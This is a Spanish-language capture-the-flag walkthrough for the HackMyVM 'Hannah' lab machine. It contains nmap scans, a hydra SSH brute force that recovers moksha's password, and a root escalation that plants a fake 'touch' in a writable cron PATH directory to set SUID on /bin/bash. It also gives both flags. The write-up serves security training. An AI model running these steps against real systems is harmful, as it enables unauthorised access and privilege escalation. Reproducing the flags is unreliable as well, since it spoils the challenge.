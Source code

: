 ```yaml
---
icon: flag
---
```


# Hannah HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 03:55 EDT
Nmap scan report for 192.168.5.37
Host is up (0.00095s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5f:1c:78:36:99:05:32:09:82:d3:d5:05:4c:14:75:d1 (RSA)
|   256 06:69:ef:97:9b:34:d7:f3:c7:96:60:d1:a1:ff:d8:2c (ECDSA)
|_  256 85:3d:da:74:b2:68:4e:a6:f7:e5:f5:85:40:90:2e:9a (ED25519)
|_auth-owners: root
80/tcp  open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/enlightenment
|_auth-owners: moksha
|_http-server-header: nginx/1.18.0
113/tcp open  ident?
|_auth-owners: root
MAC Address: 08:00:27:D9:95:A5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.71 seconds
```

## Escalate user moksha

Veremos que hay `2` puertos interesantes el `80` y el `113`, ya de primeras en el escaneo de `nmap` vemos un usuario potencial que se llama `moksha` que esta en esta linea:

```
|_auth-owners: moksha
```

Tambien estamos viendo un posible directorio indexado por el `robots.txt` que esta en esta otra liena:

```
|_/enlightenment
```

Si nos metemos como directorio web no veremos que nos cargue, nos pone un `404` por lo que no existe, vamos a probar a tirar un ataque de fuerza bruta con el usuario `moksha` a ver si hay suerte.

### Hydra

```shell
hydra -l moksha -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-11 04:01:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.37:22/
[22][ssh] host: 192.168.5.37   login: moksha   password: hannah
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-11 04:01:29
```

Veremos que hemos obtenido las credenciales del usuario `moksha` por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh moksha@<IP>
```

Metemos como contraseña `hannah` y veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVGGHFWP2023
```

## Escalate Privileges

Si leemos las tareas programadas del sistema veremos lo siguiente:

```shell
cat /etc/crontab
```

Info:

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
* * * * * root touch /tmp/enlIghtenment
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Vemos unas lineas bastante interesantes que son las siguientes:

```

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

* * * * * root touch /tmp/enlIghtenment
```

Vamos a intentar buscar alguna carpeta en la que podamos escribir de forma libre dentro de ese `PATH`, encontramos la carpeta llamada `/media` la cual tenemos todos los permisos para crear cualquier archivo, vamos a realizar un `Path Hijacking` ya que se esta utilizando antes que la del `/bin` lo haremos de la siguiente forma:

```shell
cd /media
touch touch
nano touch

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y le establecemos permisos de ejecucion.

```shell
chmod +x touch
```

Ahora solo tendremos que esperar un rato y si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Vemos que ha funcionado, por lo que escalaremos a `root`.

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVHAPPYNY2023
```
